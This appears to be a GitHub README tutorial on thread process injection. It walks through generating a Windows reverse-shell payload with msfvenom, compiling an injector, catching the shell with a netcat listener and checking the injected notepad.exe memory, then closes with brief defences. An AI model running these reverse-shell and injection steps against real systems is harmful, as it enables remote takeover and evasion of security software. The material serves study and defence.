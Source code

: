 # SimpleTPI

writing these materials for myself and for educational purposes .i will write long explanetion about every line of code for better understanding ..




So, what is thread process injection?

TPI is a technique that allows an attacker to inject code into a running process and create a new thread that will execute the injected code. The goal of the attacker with this technique is to take control of the process. This is often used to evade detection, as the injected code runs within the context of a legitimate process and "hides" in the stack, making it difficult for security software to detect.

I will run the script by creating a VM in my case, is Kali Linux.

In the console, we type the command below:

```
ifconfig
```
Then take the VM IP we want to use as a "hacker" machine:

```
eth: flags=8908<UP,BROADCAST,SMART,RUNNING,SIMPLEX,MULTICAST> mtu 2938
    options=3<RXCSUM,TXCSUM>
    ether xx:xx:xx:xx:xx:xx 
    inet xx.xx.xxx.xx netmask 0xfff0 broadcast xx.xx.xx.xx
```
I choose to use this exploit for the reverse shell, of course, you can choose any:

```
msfvenom -p windows/x64/shell_reverse_tc LHOST=xx.xx.xxx.xx LPORT=4444 -f c
```
Then we have the shell code, and we will insert it in the line of code - shellcode[] = {`here`}


Once we have the script as shown in the screenshot above, we will change the file mode for the .exe using the command 
```
cl /Tc <filename>.cpp
```
 Then, we will switch back to the VM and listen to the specified port using the command
```
 nc -nlvp 4444
```
 We will then execute the program on our "hacker station" and we should have access.
 
 <img width="552" alt="Screenshot 2023-01-24 at 13 58 20" src="https://user-images.githubusercontent.com/122444563/214533891-c84c47b9-cf2b-4ae4-89d4-dd2e28b1e75b.png">



To verify that the process has been injected, we can use the HackerProcess tool and find the notepad.exe process Properties -> Memory -> Protection column RWX (Read, Write, Execute) and can find in the memory region the reverse shell code.

![Screenshot 2023-01-25 at 10 50 03](https://user-images.githubusercontent.com/122444563/214526424-fedc65e8-3ddd-40f6-b285-5f9486dae2e6.png)

To defend against process injection in a company, it is important to keep in mind that no single solution can completely protect against thread process injection, and it is necessary to use a combination of techniques to maximize the security of your system. Using memory protection techniques like ASLR and DEP can make it more difficult for an attacker to inject code into a running process by making it harder to predict the location of memory blocks. Additionally, endpoint security solutions can be configured to block some types of process injection based on common sequences of behavior that occur during the injection process.
_____________________
